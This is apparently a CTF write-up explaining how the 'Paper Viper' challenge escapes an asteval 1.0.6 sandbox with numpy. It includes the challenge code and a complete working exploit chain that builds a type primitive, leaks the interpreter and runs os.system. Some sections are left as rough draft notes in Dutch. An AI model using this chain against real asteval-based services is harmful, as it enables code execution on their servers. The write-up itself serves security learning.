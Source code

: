 # Paper Viper

<img src="chal_descr.png" alt="Challenge description" width="400">

**Author**: Ward  
**Flag**: `kalmar{d0nt_play_w1th_5n4kes_if_you_don7_h4ve_gl0v3s}`  

## Setup
Handout: `chal.py`, `Dockerfile`, `compose.yml`, `getflag.c` and a fake `flag.txt`.

`chal.py` is the main challenge file. The goal of the challenge is to get code execution on the server and run the getflag binary.
In the Dockerfile we find that `numpy` is installed, and `asteval` with version `1.0.6` (which is the latest release).

## The challenge:
The challenge description is a reference to UofTCTF (shout out to SteakEnthusiast), in which there were three challenges on `asteval`, a "safe sandboxing" library for python.
After that CTF a few of the vulnerabilities in the library were fixed, but as anyone familiar with pyjails will know, sandboxing python is very difficult to achieve with the amount of introspection the language has, and things like unpatched memory bugs in cpython. In the case of `asteval`, `numpy` is included by default, which dramatically worsens these issues.

After that CTF I went and did some more research into `asteval` and found a few 0days, some of which I turned into this challenge.

The source code of `chal.py`:
```python
import asteval

# With this many functions from numpy removed there definitely will not be a way for users to get to `type()`, which is a security risk
asteval.astutils.NUMPY_TABLE = {k: asteval.astutils.NUMPY_TABLE[k] for k in ["genfromtxt"]}

def get_input():
    print("Give input, end with a line of $END$")
    inp = ""
    while True:
        temp = input()
        if temp == "$END$":
            break
        inp += temp +"\n"
    return inp

def nope(text):
    if not text.isascii():
        quit("Sorry, only ascii!")
    if any([text.find(x) >= 0 for x in ["yt", "ty", "rm", "uf", "**"]]):
        quit('Sorry, those bigrams just give me bad vibes!')

def main():
    inp = get_input()
    nope(inp)
    asteval.Interpreter().eval(inp, raise_errors=True)

if __name__ == "__main__":
    main()
```

As we can see, the user gives multiline input which is passed through a filter and then evaluated by the `asteval` Interpreter.
With its default settings, `asteval` includes a large set of `numpy` names in the symbol table available from within the sandbox. In this challenge the player is only given a single one of these, the function `genfromtxt()`, with a comment hinting at the function `type()`.

By default, the name `type` available within the sandbox is a "safe version" of it which returns the name of the type as a string.

The filters included are written to prevent some of the easier unintended solutions. There are a lot unpatched vulnerabilities in `asteval`, some of which are quite trivial, which these filters are intended to prevent. It was quite challenging to push players in the right direction while restricting unintendeds in a way that doesn't feel too arbitrary, which I feel I didn't really succeed at.

Specifically these filters are to block:
`byte` and `bytearray`, `dtype`, `type` (the numpy attribute), `ctypes`, `format`, `buffer` and dict unwrapping as a way to pass keyword arguments to functions in a way to bypass text filters (since the dictionary keys are string literals that can be constructed past the filter).

## The solution:
During the CTF there were two solves, by two familiar faces when it comes to pyjails, Lyndon from MMM and oh_word from Infobahn.

Lyndon's solve is based on f-strings and the well-known method of using `AttributeError.obj` to extract a value from a format string, which was a variant of a solve for the UofTCTF chals. It's a technique that I'm aware of. `asteval` had a patch after UofTCTF which intended to fix this but didn't work. Because of a version difference this didn't work during my testing, so I didn't filter it.

oh_word's solve went the intended route to obtain `type` and then did memory exploitation, presumably via the bytes class object.

### Getting a type primitive:
The challenge source contains a strong hint to try to obtain a `type` primitive via the one exposed `numpy` function `genfromtxt`. Having `type` would allow us to obtain references to class objects of builtin types but also of `asteval`-internal types for which we have access to their instances.

The easiest way to find this is to do some smart searches in the `numpy` library. E.g. if we search for `type(self.` we get 4 results, of which only 2 aren't in test files. More broad searches will also find it, though we would have more work in eliminating occurrences where either the arguments aren't user-controlled, or the results won't be reachable from the calling context.

From the two results we get there is one in `MaskedArray.count`:
```python
...
if isinstance(self.data, np.matrix):
    if m is nomask:
        m = np.zeros(self.shape, dtype=np.bool)
    m = m.view(type(self.data))
...
```
This isn't directly vulnerable: even if the isinstance-check wouldn't be a problem, the result of this call doesn't end up being used in such a way that we can easily get at the result.

The other option is in `MaskedIterator.__getitem__`
```python
def __getitem__(self, indx):
    result = self.dataiter.__getitem__(indx).view(type(self.ma))
    if self.maskiter is not None:
        _mask = self.maskiter.__getitem__(indx)
        if isinstance(_mask, ndarray):
            # set shape to match that of data; this is needed for matrices
            _mask.shape = result.shape
            result._mask = _mask
        elif isinstance(_mask, np.void):
            return mvoid(result, mask=_mask, hardmask=self.ma._hardmask)
        elif _mask:  # Just a scalar, masked
            return masked
    return result
```
Note that `self.dataiter` and `self.ma` are user-controlled. Thus, if we can make it so that the `.view` method of the object returned by the `__getitem__` call on `self.dataiter` either returns its argument, or e.g. adds its argument to some global list, this allows us to access the result of `type`. This would give us a useable `type` primitive.

At this point we need to figure out how to get a `MaskedIterator` instance from `genfromtxt`.

```python
# Get `type` primitive
def id(x):
    return x

genfromtxt.view = id
ma = genfromtxt(["1"], usemask=True)
mf = ma.flat
mf.maskiter = None
mf.ma = "foo"
mf.dataiter = [genfromtxt]
str = mf[0]

mf.ma = str
t = mf[0]
```

Wat geeft type ons? In de sandbox heb je een fake versie van type. Type stelt ons in staat om class objects te verkrijgen van alle objecten waar we toegang toe hebben in de sandbox, inclusief `asteval`-eigen klassen.

### Overriding class level dunders to leak the interpreter object:

Point out de bug in setattr van dunders.
Point out de bug van setattr in Procedure als instance-level-functie ipv class-level.

```python
# Get Procedure class object
def f():
    pass
p = t(f)

# Obtain the Interpreter instance
def stealer(name, interp, doc=None, lineno=None,
                 body=None, text=None, args=None, kwargs=None,
                 vararg=None, varkws=None):
    print(interp)
    kwargs[0][1].append(interp)
p.__init__ = stealer
rescuelist = []
def g(rescue=rescuelist):
    pass
i = rescuelist[0]
print(i)
```

Dit geeft ons een interpreter-object.

### Profit:
Op dit punt zijn er een heleboel opties.
De makkelijkste is om gewoon gebruik te maken van de importfunctionaliteit.
Een leuke alternatieve optie is om de attribuutnaam-check in on_name te omzeilen door een fake-subtype van string te maken en daarmee de waarde van een ast.Name node te overschrijven, maar die laat is als exercise to the reader.

```python
# Import and escape the jail
i.import_module("os",["sys"],["system"])
sys("echo hi mom")
sys("/getflag")
print()
```

`kalmar{d0nt_play_w1th_5n4kes_if_you_don7_h4ve_gl0v3s}`
